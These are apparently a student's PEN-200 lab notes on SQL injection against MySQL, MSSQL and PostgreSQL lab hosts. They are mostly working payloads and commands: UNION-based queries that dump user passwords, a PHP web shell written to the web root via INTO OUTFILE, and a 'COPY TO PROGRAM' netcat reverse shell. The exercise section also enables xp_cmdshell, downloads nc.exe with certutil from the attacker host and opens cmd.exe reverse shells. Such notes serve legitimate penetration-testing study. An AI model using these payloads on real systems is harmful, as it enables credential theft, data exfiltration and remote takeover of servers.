 [SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
[MySQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)
https://youtu.be/cx6Xs3F_1Uc?si=0xt_0UZibLEwjDk6

## SQL DB TYPES AND THEORY
MySQL and Microsoft SQL Server (MSSQL) most common
Identify the port using NMAP

### MYSQL
sudo nmap -T5 --top-ports=500 -sS 192.168.238.16

Nmap scan report for 192.168.238.16
Host is up (0.045s latency).
Not shown: 496 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql              ----HERE IS THE PORT #
8000/tcp open  http-alt
8080/tcp open  http-proxy

After seeing the port, go to mysql if username/password provided

$ mysql -u root **-p'root'** -h 192.168.238.16 -P 3306
**(-p = Password)  (-P= Port)**

MySQL [(none)]> 

SIMPLE VERSION/SYSTEM AND DATABASE INFO
-MySQL [(none)]> select version ();
+------------+
| version () |
+------------+
| 8.0.21     |
+------------+
-MySQL [(none)]> select system_user();
+---------------------+
| system_user()       |
+---------------------+
| root@192.168.45.181 |
+---------------------+
-MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+

Sample of using finding an authentication string from an user
![[Pasted image 20230930080712.png]]

### MSSQL 
Impacket
Run Nmap to identify the service
┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap -T5 --top-ports=500 -sS 192.168.238.18                      
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
**1433/tcp open  ms-sql-s**    -------HERE IS MSSQL
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

└─$ impacket-mssqlclient Administrator:Lab123@192.168.238.18 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


Encryption required, switching to TLS
 ENVCHANGE(DATABASE): Old Value: master, New Value: master
 ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
 INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
ACK: Result: 1 - Microsoft SQL Server (150 7208) 
 Press help for extra shell commands
SQL> 

SQL> SELECT @@version;
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2022 Standard 10.0 Build 20348: ) (Hypervisor)

SQL> SELECT name FROM sys.databases; -SHOWS DBS
name                                                                                         
master                                                                                       
tempdb                                                                                      
model                                                                                                
SQL> select * from offsec.dbo.users;    ---INFO ABOUT DB
username     password     

admin        lab          

guest        guest      

## SQL INJECTION ATTACKS
If you can use a ' at the end and receive a response, you can interact with the database
![[Pasted image 20230930093732.png]]

after finding the ' gets a response, you can use a cmd like this to find more information to interact further with it

offsec' OR 1=1 == //

![[Pasted image 20231001051716.png]]
' or 1=1 in **(select @@version)** -- //   -----**This is where the query goes!**

using a specific criteria will most likely provide you with the desired result
```
' or 1=1 in (SELECT password FROM users) -- //
```

![[Pasted image 20231001053044.png]]

being more specific would give you the information you desire (e.g. admin password)
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
![[Pasted image 20231001053200.png]]


### UNION BASE SQL ATTACKS
some databases could be attacked using UNION SQL queries; The **UNION**[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/sql-injection-attacks/manual-sql-exploitation/union-based-payloads#fn1) keyword aids exploitation because it enables execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement. use this to see all the info for the users in the database

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

![[Pasted image 20231001054044.png]]

this could be use to determine the exact columns (if you get an error, you know you have exceeded the amount)
![[Pasted image 20231001054147.png]]

Use this command to enumerate the database. **use the % sign to retrieve ALL the information from the DB**
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

![[Pasted image 20231001054233.png]]

this cmd will give you an exact query info about the user (**no % use in this query since we know the specific info we are looking for**)
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![[Pasted image 20231001054619.png]]

with this  cmd, we are attempting to enumerate the db
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![[Pasted image 20231001054924.png]]
with the next command, we are attempting to dump the user name, password and description
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20231001055033.png]]

### BLIND SQL INJECTIONS

### EXERCISES

#### Q5

```
' ORDER BY 1-- //
```
To identify columns.
![[Pasted image 20231004201438.png]]
![[Pasted image 20231004202641.png]]
![[Pasted image 20231004203231.png]]


<?php system($_GET['cmd']); ?>

' UNION SELECT null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- //

![[Pasted image 20231004214100.png]]
### Q6
First identify which port is open

![[Pasted image 20231005200443.png]]
![[Pasted image 20231005200459.png]]

![[Pasted image 20231005200620.png]]
try every field available for injection, and if it doen't work, try every field in it using burp

![[Pasted image 20231005200358.png]]

![[Pasted image 20231005201451.png]]
no errors in **'ORDER%20BY%206--//**

'; COPY (select null) TO PROGRAM 'nc -e /bin/sh 192.168.45.181 4444'; --


CODE USE TO ACCESS THE MACHINE

### Q7


';EXEC sp_configure 'show advanced options', 1;--

';RECONFIGURE;--

';EXEC sp_configure "xp_cmdshell", 1;--

';RECONFIGURE;--

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.181/nc.exe c:/windows/temp/nc.exe";--

first start a listener in your kali

nc -nlpv 443

';EXEC xp_cmdshell "c:/windows/temp/nc.exe 192.168.45.181 443 -e cmd.exe";--

└─$ sqlmap -r r**eq.txt** --os-shell --batch   --file from the POST that you save


';EXEC sp_configure 'show advanced options', 1;--

';RECONFIGURE;--

';EXEC sp_configure "xp_cmdshell", 1;--

';RECONFIGURE;--

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.181/nc.exe c:\inetpub\wwwroot\nc.exe";--                PATH IS FROM THE SQL ERROR
                                               OPEN A HTTP SERVER FROM WHERE THE FILE IS

';EXEC xp_cmdshell -p c:\inetpub\wwwroot\nc.exe "c:\inetpub\wwwroot\nc.exe -e cmd.exe 192.168.45.181 443";--      